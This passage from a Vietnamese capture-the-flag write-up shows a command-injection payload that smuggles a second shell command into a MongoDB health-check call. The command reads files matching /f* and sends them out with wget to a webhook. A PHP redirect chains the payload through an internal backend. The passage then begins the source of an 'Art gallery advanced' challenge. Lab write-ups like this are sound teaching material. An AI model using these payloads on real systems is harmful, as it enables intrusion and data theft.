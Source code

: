```FLAG=$(wget WEBHOOK-URL/`cat /f*`) ;```
    
Payload để gắn vào cmd 

```").ok\' ; FLAG=$(wget WEBHOOK-URL/`cat /f*`); echo \'db.runCommand("ping```
    
Khi parse vào trong code thì nó sẽ thành
    
```echo 'db.runCommand("").ok\' ; FLAG=$(wget WEBHOOK-URL/`cat /f*`); echo \'db.runCommand("ping").ok' | mongosh mongodb:27017/app --quiet```
    
Và lệnh đã được thực thi, tiến hành host và fetch lại
    
```html
<!DOCTYPE html>
<html>
<body>
<?php
$a = '").ok\' ; FLAG=$(wget WEBHOOK-URL/`cat /f*`) ; echo \'db.runCommand("ping';
header("location: http://backend:5000/health_check?cmd=$a");
?>
</body>
</html>    
```
    
Và ta có được flag
    
![image](https://hackmd.io/_uploads/ryACFywLke.png)
    
## Art gallery advanced

![image](https://hackmd.io/_uploads/SJE35kwUye.png)
    
Đề bài cho mình một trang web như sau
    
![image](https://hackmd.io/_uploads/HkFjqkvLye.png)

Source của ta bao gồm những file sau đáng lưu ý
    
<details>
<summary>index.js</summary>
    
```js
const express = require('express');
const app = express();
const jwt = require('jsonwebtoken');
const nunjucks = require('nunjucks');
const cookieParser = require('cookie-parser');
const auth = require('./middleware/auth');
const csp = require('./middleware/csp');
const debug = require('./middleware/debug');
const rateLimit = require('express-rate-limit');
const { users, JWT_SECRET, setDebugMode, getDebugMode } = require('./setup');
const crypto = require('crypto');
const { visit } = require('./bot');
const PORT = 1337;

const templates = new Map();

app.use(cookieParser());
app.use(express.json());
nunjucks.configure('templates', {
    autoescape: true,
    express: app
});
const apiLimiter = rateLimit({
    windowMs: 60 * 1000, // 1 minutes
```